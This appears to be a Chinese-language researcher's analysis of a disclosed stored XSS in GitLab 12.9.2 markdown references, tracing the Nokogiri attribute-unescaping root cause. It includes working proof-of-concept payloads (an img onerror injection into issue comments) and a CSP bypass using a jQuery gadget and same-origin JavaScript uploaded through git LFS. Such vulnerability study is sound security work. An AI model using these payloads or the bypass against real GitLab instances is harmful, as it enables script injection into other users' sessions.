

## Name

> Gitlab Stored XSS in markdown when redacting references

## Weakness

> XSS

## Severity

> 高危

## Environment

> Gdk version:
1b0e37a87f64ea5aad3ec9af1de9d563ca2a6a44
Gitlab version
v12.9.2-ee
Ubuntu version
18.04

> 原文：[https://hackerone.com/reports/836649](https://hackerone.com/reports/836649)

## URL

## Summary

漏洞函数`redacted_node_content`负责渲染markdown的reference部分，其中node的`data-original`属性能够被注入xss，导致`#{content}`包含该xss返回前端得到执行。
*lib/banzai/reference_redactor.rb:75*
```
def redacted_node_content(node)
      original_content = node.attr('data-original')
      link_reference = node.attr('data-link-reference')
      # Build the raw <a> tag just with a link as href and content if
      # it's originally a link pattern. We shouldn't return a plain text href.
      original_link =
        if link_reference == 'true'
          href = node.attr('href')
          content = original_content
          %(<a href="#{href}">#{content}</a>)
        end
```

## Code Review

### pre-byebug

由于ruby版本比较老旧，无法使用vscode插件进行调试，选择pre-byebug手动调试。首先在代码行前插入pre-byebug断点binding.pry，然后使用`bin/rails server`跑起来，遇到断点则自动停下。
尝试关闭log开启调试，`rails server --help`知道，加上后缀可以关闭log
`bin/rails server --no-log-to-stdout`
另外还有puma的日志需要关闭：
*lib/gitlab/cluster/puma_worker_killer_initializer.rb:33* 添加：（见[https://github.com/zombocom/puma_worker_killer](https://github.com/zombocom/puma_worker_killer)）
`config.reaper_status_logs = false`

1. 通过drawio画出[函数流关系图](https://drive.google.com/file/d/1RuaQELwDr-kQDS1XHNpDNi8Xh7EQ4WZI/view?usp=sharing)。找到部分触发该漏洞函数的controller。

### Review
    
1. 直接通过markdown preview渲染来实时获取渲染片段。经过调试发现，用户的输入首先会进行html化，然后进行渲染。
    *app/controllers/concerns/preview_markdown.rb*
    ```
    render json: {
          body: view_context.markdown(result[:text], markdown_context_params),
          references: {
            users: result[:users],
            suggestions: SuggestionSerializer.new.represent_diff(result[:suggestions]),
            commands: view_context.markdown(result[:commands])
          }
        }
    ```
    *app/helpers/markup_helper.rb:99*
    ```
    def markdown(text, context = {})
        return '' unless text.present?
        context[:project] ||= @project
        context[:group] ||= @group
        html = markdown_unsafe(text, context)
        # byebug
        prepare_for_rendering(html, context)
      end
    ```
    从preview的调用栈，可以看到首先将markdown转为html，然后再对html进行处理。`markdown_unsafe`主要负责前中期html转换，`prepare_for_rendering`负责html的后期处理，当然问题出在这个后期处理上。
2. 通过函数名推断，输入reference相关markdown，可以触发漏洞函数，查询文档可以得知reference的markdown语法。[https://docs.gitlab.com/ee/user/markdown.html#gitlab-specific-references](https://docs.gitlab.com/ee/user/markdown.html#gitlab-specific-references)。（ps:分析项目还是要结合文档进行分析，不然什么时候才时候头呢？）
3. 例如输入`@root`，这是一个用户引用markdown，会引用root这个用户，那么第一个函数`markdown_unsafe`会返回html:
    ```
    <p data-sourcepos="1:1-1:5" dir="auto">
    <a href="/root" data-user="1" data-reference-type="user" data-container="body" data-placement="top" data-html="true" class="gfm gfm-project_member" title="Administrator">
    @root</a>
    </p>
    ```
    但是从漏洞函数分析，html需要包含属性`data-origin`和`data-reference-link`这个两个值才行，特别是`data-reference-link`是必须的。
4. 从文字着手分析，应该是包含链接的reference，从文档查看，应该是：`[README](doc/README.md#L13)`
5. 经过代码审计，发现gitlab特定的markdown有两种输入方式，分别是markdown和html格式，html由markdown渲染而来，因此用户输入该html也能达到同等渲染效果，但是html的输入扩大了攻击面。
    *gitlab-v12.9.2-ee/lib/banzai/pipeline/gfm_pipeline.rb*
    ```
    # These filters transform GitLab Flavored Markdown (GFM) to HTML.
    # The nodes and marks referenced in app/assets/javascripts/behaviors/markdown/editor_extensions.js
    # consequently transform that same HTML to GFM to be copied to the clipboard.
    # Every filter that generates HTML from GFM should have a node or mark in
    # app/assets/javascripts/behaviors/markdown/editor_extensions.js.
    # The GFM-to-HTML-to-GFM cycle is tested in spec/features/copy_as_gfm_spec.rb.
    ```
    因此直接对markdown渲染后的元素进行拷贝作为基准payload，下面拷贝了引用issue的markdown`#1`所渲染的html:
    ```
    <a href="http://127.0.0.1:3000/xss/xxss/-/issues/1" data-original="#1" data-link="false" data-link-reference="false" data-project="20" data-issue="436" data-reference-type="issue" data-container="body" data-placement="top" data-html="true" title="xss">#1&lt;img src=x&gt;</a>
    ```
    payload中`#1&lt;img src=x&gt;`是主要部分。该部分原本是escape后的字符串，但是在后端处理时将其赋值给了属性值，而Nokogiri库自动对属性值进行unescape。
6. ruby库Nokogiri解析html字符串时，会把属性中html encoded字符进行unencoded，最终造成注入问题。
    *lib/banzai/filter/reference_filter.rb:132* 该函数将html字符串替换到node对象中，其中html字符串包含escape的属性值。
    ```
    def replace_link_node_with_href(node, link)
        html = yield
        binding.pry
        node.replace(html) unless html == link
    end
    ```
    node.replace是nokogiri库调用，该函数对html字符串进行解析，构建html node对象:
    */home/kali/.rvm/gems/ruby-2.6.5/gems/nokogiri-1.10.8/lib/nokogiri/xml/node.rb:477*
    ```
    node_set = in_context(contents, options.to_i)
    ```
    其中解析字符串的函数由nokogiri的[c函数](https://github.com/sparklemotion/nokogiri/blob/9aebcc669a7028e4faad1fc8b53cf46a2f2320ba/ext/nokogiri/xml_node.c#L2152)实现。该函数负责解析属性和值，并且将属性值的html编码进行unescape。
    
### Step to reproduce

1. 首先新建一个非公开的issue，然后再新建一个公开issue
2. 在公开的issue中引用非公开的issue进行评论，并且注入payload
  ```
  其中2是私密issue，该payload需要发送在issue1中
  <a href="http://127.0.0.1:3000/xss/xxss/-/issues/2" data-original="#2" data-link="false" data-link-reference="false" data-project="20" data-issue="437" data-reference-type="issue" data-container="body" data-placement="top" data-html="true" title="hacked">#2&lt;img src=x onerror=alert(1)&gt;</a>
  ```
3. 用其他账户登录，查看公开issue，即可完成攻击
4. 现在能够注入任意html和xss payload，但是如果有csp，那么需要绕过，绕过方法可以考虑jquery：构造一个需要全局初始化的html片段，然后由前端进行注入。

### csp bypass
1. 当然这些绕过是平时找到的gadget，需要每天日积月累的审计源代码才能找到。也就是说每天都要debug，每天都要静态分析，每天都要动态分析才行。这需要理解软件的逻辑，什么是软件的逻辑，包括路由，渲染，功能之类的，这绝对不是做个漏洞复现，切片就足够的。
2. 首先选定用jquery注入script标签的方式，通过 `\$\([`'"][\s\S]{0,100}?<[\s\S]{3,200}?>[\s\S]{0,100}?[`'"]\)` 来定位到。
    *app/assets/javascripts/gl_field_error.js*
    ```
    this.fieldErrorElement = $(`<p class='${errorMessageClass} hidden'>${this.errorMessage}</p>`);
    ```
3. 逆向分析得知，该函数由main.js调用，也就是所谓的全局初始化代码
    *app/assets/javascripts/gl_field_errors.js*
    *app/assets/javascripts/main.js:337*
    ```
    $('.gl-show-field-errors ').each((i, form) => new GlFieldErrors(form));
    ```
4. 该段代码显示，只要注入class为gl-show-field-errors的片段，就能够被执行，那么构造payload如下：
    ```
    <input class="gl-show-field-errors gl-field-error-ignore" type=url title="<script>alert(11)</script>"/>
    html encode:
    &lt;input class=&quot;gl-show-field-errors gl-field-error-ignore&quot; type=url title=&quot;&lt;script&gt;alert(11)&lt;/script&gt;&quot;/&gt;
    ```
    
5. 虽然成功注入了，但是没有触发，原因是注入的html代码是动态渲染的，而初始化前端在动态渲染之前就已执行完毕。
6. 看了作者的绕过方法，提供了两种绕过方法，其中一种是直接注入script src标签，并且src指向本域名的js文件。
7. csp绕过，通过上传js到同域名下，再用script标签直接引用该js，gitlab提供git lfs服务端和客户端来管理用户上传的文件，如果用该客户端上传文件，那么点击该文件的链接就会直接下载，并且域名相同。github也提供该功能，但是文件被保存到另一个域名中了，但是gitlab却依然是同域名。
8. 以下为lfs的操作命令：
    ```
    git clone https://gitlab.com/sunriseXu/lfs.git
    git lfs track "*.js" 
    vim test.js
    git add . && git commit -m 'test'
    git push
    git lfs ls-files
    ```
9. 经过测试，发现github的查看和下载文件的链接都在gitlab.com域名中，但是即使不用lfs上传js，其他文件的下载链接都是在gitlab.com域名中，所以lfs没有必要吧，经过测试还是有必要，报错如下：
    ```
    Refused to execute script from 'https://gitlab.com/1159309551xcz/lfs/-/raw/main/test?ref_type=heads&inline=false' because its MIME type ('application/octet-stream') is not executable, and strict MIME type checking is enabled.
    ```
    就是说script的链接需要返回的type不能是octet-stream
    上传一个lfs的js文件，返回的类型是text/javascript：
    ```
    https://gitlab.com/1159309551xcz/lfs/-/raw/main/test.js?ref_type=heads&inline=false
    ```
    但是上传非lfs的js文件，返回的类型是text/octet-stream和text/plain，这两种都无法执行，果然还是要lfs上传才行，这是gitlab一个潜在漏洞。

## Tips

1. 从结论上说，该漏洞是底层库漏洞，nokogiri从字符串创建html节点的过程存在漏洞，包括nokogiri的多个函数。该过程自动将属性中html编码进行反编码。而后续代码如果引用该编码码后的属性值插值到html字符串片段中，将引发xss注入。
2. 漏洞定位应聚焦于nokogiri解析html字符串的相关函数。例如replace，parse，new等函数，太多了，可以说nokogiri这种解析机制就是很大的问题。当然即使unescape属性值，也需要后续插值才能构建完整攻击流程。因此对于该漏洞点位进行定位太泛泛了。
3. 但是也有一些危险操作，例如将node的text也就是文本内容(通过inner_html)方法获取，如果是text，则自动escape，如果是node，则返回未编码的html字符串。危险的是将这些inner_html赋值给属性后转为html字符串，再次构建新node后，属性值就自动解码了，如果再次利用该属性值将带来危险。所以完成该攻击需要几个函数配合，那就是nokogiri的：
    * inner_html函数：获取用户输入
    * 赋值操作：例如`%Q(data-#{key.to_s.dasherize}="#{escape_once(value)}")`，将内容赋值给属性
    replace等构建
    * node函数：`node.replace(str)`等函数
    * 获取属性值的函数attr：`node.attr(xxx)`等函数
4. 引申到jquery中：`attr`方法将escape后的字符串自动unescape


